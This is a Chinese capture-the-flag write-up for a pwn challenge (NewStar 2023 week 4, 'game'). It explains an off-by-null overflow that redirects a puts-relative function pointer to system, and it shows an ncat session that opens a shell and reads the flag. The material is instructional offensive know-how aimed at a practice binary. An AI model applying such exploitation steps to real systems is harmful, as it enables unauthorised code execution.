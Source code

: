 ```yaml
---
title: newstar2023 week4 - game
date: 2023/10/19 12:00:00
tags:
    - noob
excerpt: 利用程序漏洞控制参数，成功执行system函数并获取flag。
---
```


## 文件分析

下载`pwn`, NX on, PIE on, Canary off, RELRO full  
ghidra分析为64位程序

## 解题思路

观察程序，发现 ~~原神~~ 函数末尾运行了`(*(puts + (-(long)cnt - (long)offset)))(bytes);`  
那么只要控制cnt和offset，就可以运行system；控制bytes可以打开shell

cnt在完成委托每次+0x10000，而offset通过输入%hd获得；  
bytes在对肯德基爷爷的话中可以输入；  
现在唯一的问题是：怎样既选择派蒙又选择三月七以满足`if ((flag_paimon != 1) || (flag_march7 != 1)) break;`
的条件？

发现myread函数存在**off-by-null**溢出，动调发现溢出的刚好是选择的伙伴变量，
那么只要先选三月七，然后溢出修改伙伴为派蒙即可

虽然题目中完成4次委托给了system地址，但是libc给了...直接在libc中找偏移，
得出`system - puts`=0x38592

## EXPLOIT

```
> ncat node4.buuoj.cn 29415
请选择你的伙伴1
我永远喜欢三月七!
现在你可以开始探险了1.扣1送原石2.扣2送kfc联名套餐2
你有什么想对肯德基爷爷说的吗?
/bin/sh
1.扣1送原石2.扣2送kfc联名套餐1
恭喜你完成一次委托1.扣1送原石2.扣2送kfc联名套餐1
恭喜你完成一次委托1.扣1送原石2.扣2送kfc联名套餐1
恭喜你完成一次委托1.扣1送原石2.扣2送kfc联名套餐3
you are good mihoyo player!
8592
cat flag
flag{removed}
```

Done.
